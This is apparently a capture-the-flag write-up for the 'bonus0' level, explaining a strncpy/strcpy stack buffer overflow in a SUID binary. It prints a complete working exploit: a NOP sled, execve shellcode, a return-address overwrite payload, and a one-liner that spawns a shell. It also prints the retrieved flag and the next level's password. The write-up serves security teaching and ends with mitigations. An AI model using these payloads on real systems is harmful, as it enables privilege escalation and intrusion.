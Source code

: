 # Bonus0 Analysis - Double Buffer Overflow via strcpy/strcat

## Overview
Bonus0 demonstrates a sophisticated **double buffer overflow** attack exploiting the dangerous combination of `strncpy()` and `strcpy()`. The vulnerability occurs when `strncpy()` fails to null-terminate strings, causing subsequent `strcpy()` operations to read beyond intended boundaries.

## Binary Information
- **File**: ELF 32-bit LSB executable, Intel 80386, dynamically linked
- **Permissions**: -rwsr-s---+ 1 bonus1 users (SUID bit set for bonus1)  
- **Size**: 5566 bytes
- **Functions**: main(), pp(), p(), strcpy(), strncpy(), strcat(), puts(), read(), strchr()
- **Protection**: No stack canaries, NX disabled (executable stack)

## Source Code Analysis

### Program Structure
```c
char *p(char *s, char *str) {
    char buffer[4096];
    puts(str);                          // Print " - "
    read(0, buffer, 4096);              // Read user input
    *strchr(buffer, '\n') = 0;          // Remove newline
    return (strncpy(s, buffer, 20));    // Copy first 20 chars (NO NULL TERMINATION!)
}

char *pp(char *buffer) {
    char b[20], a[20];
    unsigned int len;
    
    p(a, " - ");          // Get first input → a[20]
    p(b, " - ");          // Get second input → b[20]
    strcpy(buffer, a);    // VULNERABLE: a may not be null-terminated!
    len = strlen(buffer); 
    buffer[len] = ' ';
    buffer[len + 1] = 0;
    return (strcat(buffer, b)); // Concatenate b to buffer
}

int main(void) {
    char buffer[42];      // Main buffer (42 bytes)
    pp(buffer);
    puts(buffer);
    return (0);
}
```

## Vulnerability Analysis

### Critical Flaw: strncpy() Null-Termination Issue
**The Problem:**
- `strncpy(s, buffer, 20)` copies exactly 20 bytes from buffer to s
- **If source length ≥ 20**: No null terminator is added to destination
- **Result**: String `a` becomes non-null-terminated

### Attack Chain
1. **First Input (> 20 chars)**: `strncpy()` copies 20 chars without null terminator
2. **String `a` State**: Contains 20 chars + whatever follows in memory (string `b`)
3. **strcpy() Exploitation**: Reads past `a[20]` into `b[20]`, then into stack memory
4. **Buffer Overflow**: Overflows main buffer[42], overwrites return address

## Memory Layout Analysis

### Stack Layout in pp() function
```
Higher Memory Addresses
┌─────────────────────────────────────┐
│ Saved EBP                          │ ← EBP
├─────────────────────────────────────┤
│ Return Address                     │ ← EBP + 4 (TARGET)
├─────────────────────────────────────┤
│ buffer parameter (from main)       │ ← EBP + 8
├─────────────────────────────────────┤
│ len variable                       │ ← EBP - 4
├─────────────────────────────────────┤
│ b[20] array                        │ ← EBP - 0x1C
├─────────────────────────────────────┤
│ a[20] array                        │ ← EBP - 0x30
└─────────────────────────────────────┘
Lower Memory Addresses
```

### Buffer Overflow Mechanics
- `a[20]` (not null-terminated) + `b[20]` = 40+ bytes copied to main buffer[42]
- Overflow occurs when total length > 42 bytes
- Return address overwrite at offset 14 from buffer start

## Exploitation Strategy

### 1. Shellcode Placement
**Input 1 (First " - " prompt):**
```python
'\x90' * 3000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
```
- **NOP Slide**: 3000 bytes of `\x90` (no-operation instructions)  
- **Shellcode**: 23 bytes - execve("/bin//sh") system call

### 2. Return Address Overwrite
**Input 2 (Second " - " prompt):**
```python
'B' * 14 + '\xa4\xe6\xff\xbf' + 'B'
```
- **Padding**: 14 bytes to reach return address
- **Target Address**: `0xbfffe6a4` (points into NOP slide)
- **Extra Byte**: Ensures proper alignment

### 3. Address Calculation
**Buffer Address Discovery (via GDB):**
```gdb
(gdb) disas p
   0x080484d0 <+28>: lea -0x1008(%ebp),%eax  ; buffer address
(gdb) break *p+28
(gdb) run
(gdb) x $ebp-0x1008
0xbfffe640: 0x00000000
```
- **Buffer Start**: `0xbfffe640`
- **Target Address**: `0xbfffe640 + 100 = 0xbfffe6a4` (middle of NOP slide)

## Shellcode Analysis
```assembly
\x31\xc0        ; xor eax, eax          - Clear EAX
\x50           ; push eax              - Push NULL terminator  
\x68\x2f\x2f\x73\x68 ; push "//sh"      - Push "//sh"
\x68\x2f\x62\x69\x6e ; push "/bin"      - Push "/bin"  
\x89\xe3       ; mov ebx, esp          - EBX = "/bin//sh"
\x50           ; push eax              - Push NULL (argv[1])
\x53           ; push ebx              - Push "/bin//sh" (argv[0])
\x89\xe1       ; mov ecx, esp          - ECX = argv array
\xb0\x0b       ; mov al, 11            - EAX = 11 (execve syscall)
\xcd\x80       ; int 0x80              - Execute system call
```

## Complete Exploit Execution

### Final Payload
```bash
(python -c "print('\x90' * 3000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"; python -c "print('B' * 14 + '\xa4\xe6\xff\xbf' + 'B')"; cat) | ./bonus0
```

### Execution Result
```
 -
 -  
��������������������BBBBBBBBBBBBBB����B BBBBBBBBBBBBBB����B
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## Security Implications

### Vulnerability Root Cause
1. **Dangerous Function Usage**: `strncpy()` without explicit null termination
2. **Unsafe String Operations**: `strcpy()` on potentially non-terminated strings
3. **No Bounds Checking**: Buffer operations without length validation
4. **Stack Execution**: Executable stack allows shellcode execution

### Modern Mitigations
- **ASLR**: Address Space Layout Randomization would randomize buffer addresses
- **Stack Canaries**: Would detect buffer overflow before return
- **NX Bit**: Non-executable stack would prevent shellcode execution  
- **FORTIFY_SOURCE**: Would replace unsafe functions with safer variants

### Lessons Learned
- Always explicitly null-terminate strings after `strncpy()`
- Use safer alternatives: `strlcpy()`, `snprintf()`
- Implement proper input validation and bounds checking
- Enable modern compiler protections and system-level mitigations

## Flag Retrieved
```
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```